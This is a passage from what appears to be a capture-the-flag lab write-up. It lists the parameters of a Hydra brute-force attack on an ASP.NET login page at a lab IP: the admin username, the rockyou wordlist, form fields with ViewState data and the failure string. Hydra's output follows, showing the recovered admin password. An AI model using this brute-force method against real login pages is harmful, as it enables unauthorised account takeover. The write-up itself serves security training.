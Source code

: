 In the above we have the used the following:

```text
Username = admin
Wordlist for passwords = rockyou.txt
IP of the target server = 10.10.60.43
Type of attack = http-post-form
Page to attack = /account/login.aspx
Session info gathered from Burp = __VIEWSTATE=v2%2FpJf5g0ju42LmZjbFdycrJfqFRSYkfOeJv79XeFKiaHtyhjCJjBQm1e9%2FRbOLxqHnKaQArzfzFSAs%2BB5yFhKneHbgLcTy2s9BkQahPVGqJN64Bm5RKsjOGVbzkCjudOIBh%2BfiJAqTbe71eFBWNclsZyPv7QSI67TEU7zwWHapnLQ9K3wyYD0ePtW5g9Iu9u4SWan8B5cB%2Fqq%2FcLP%2FMEXyfeW%2Fgo30FHMuQhhTPj0a%2BOGdWlsUW6l0tIMSnHIb0cMHicQoK8SJ%2BiwqCrr5Tx8gPrSPbJr%2BB%2FZnpS7yo6B%2Frvon2P9GjeUH9v7JnjNhQJdd1ZN4IkXUtHgr667K2i59pL68rQ7qh%2Bvo7fc8tlXSnvp9B&__EVENTVALIDATION=RnYbEyzGTU2QAUGmkxHo4YsUdSsZDJuXW6HD97WnUyh0jLqmpusHutkSu1kwFAQ8ngHp89xLzPrswQvsP%2BaggtUD5JbMnL2WJVHdDOySSuHq0jKT6IeISlH2JhdbV1SaS4wji37q96RuvkTbQpBS%2BEh9JSd%2FmnhA64WN1sQaG0X4Zon6&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
Failed login message so we can detect when we have a success = :Login Failed
```

Hydra gets to work trying each password from the wordlist and quickly finds the correct one:

```text
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-30 16:47:47
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.60.43:80/Account/login.aspx:__VIEWSTATE=v2%2FpJf5g0ju42LmZjbFdycrJfqFRSYkfOeJv79XeFKiaHtyhjCJjBQm1e9%2FRbOLxqHnKaQArzfzFSAs%2BB5yFhKneHbgLcTy2s9BkQahPVGqJN64Bm5RKsjOGVbzkCjudOIBh%2BfiJAqTbe71eFBWNclsZyPv7QSI67TEU7zwWHapnLQ9K3wyYD0ePtW5g9Iu9u4SWan8B5cB%2Fqq%2FcLP%2FMEXyfeW%2Fgo30FHMuQhhTPj0a%2BOGdWlsUW6l0tIMSnHIb0cMHicQoK8SJ%2BiwqCrr5Tx8gPrSPbJr%2BB%2FZnpS7yo6B%2Frvon2P9GjeUH9v7JnjNhQJdd1ZN4IkXUtHgr667K2i59pL68rQ7qh%2Bvo7fc8tlXSnvp9B&__EVENTVALIDATION=RnYbEyzGTU2QAUGmkxHo4YsUdSsZDJuXW6HD97WnUyh0jLqmpusHutkSu1kwFAQ8ngHp89xLzPrswQvsP%2BaggtUD5JbMnL2WJVHdDOySSuHq0jKT6IeISlH2JhdbV1SaS4wji37q96RuvkTbQpBS%2BEh9JSd%2FmnhA64WN1sQaG0X4Zon6&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http://10.10.60.43/
[80][http-post-form] host: 10.10.60.43   login: admin   password: 1qaz2wsx
[STATUS] attack finished for 10.10.60.43 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-30 16:48:30
```

## Task 3

We have the user and admin credentials and can login to get to the dashboard:
